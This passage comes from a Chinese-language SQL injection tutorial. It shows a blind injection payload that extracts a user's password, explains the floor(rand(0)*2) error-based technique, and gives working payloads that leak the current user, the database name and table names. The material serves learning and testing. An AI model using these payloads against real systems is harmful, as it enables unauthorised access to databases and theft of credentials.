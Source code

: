 ```sql
# 获取账号密码
1'and if(substring((select CONCAT(user,0x3a,PASSWORD) from users limit 1),1,1)='a',1,0)--+
```



### 6. 报错注入

要点：当页面无回显且在输入错误信息的时候，能返回报错信息。一般这些报错信息是函数执行`mysqli_error(),mysqli_connect_error()`将错误信息返回到页面上。

注意：有些有限制输出长度

注入报错的分类：

- BIGINT等数据类型溢出
- xpath语法错误，适用版本：mysql版本号大于5.1.5
- floor()报错
- 列名重复报错
- 参数不规范报错



#### 6.1 常用报错注入函数



##### 6.1.1 floor

```sql
(select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

使用了`count(),rand(),floor(),group by`这几个函数。

`rand()`会随机生成范围内的值，这里`rand(0`)会生成0~1的值，`rand(0)*2`就是0~2的值，然后带上`floor()`，就是0或1，但是这个0，1生成的顺序会和rand()函数调用有关系。

特别注意的地方是`group by`这个里，会使用`x`作为主键，**意思是不存在的时候先新建一行，存在的时候就会调用count()的计数加一**。然后由于`floor(rand(0)\*2)`作为主键，**在判断是否存在主键的时候会先计算值一次，然后在使用的时候又会再计算一次，因此会造成判断值和插入值不一样**，出现的问题就是，当前可能表中已经存在主键“XXX1”，此次判断是否需要插入的键为“XXX0”，于是需要插入，但是插入时重新计算了值“XXX1”，就会造成主键重复插入的错误,由于此特性，也需要查询内容数量要至少3条。

- 爆破用户信息

```sql
and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

- 爆破库

```sql
and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

- 爆破表名

```sql
and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
```
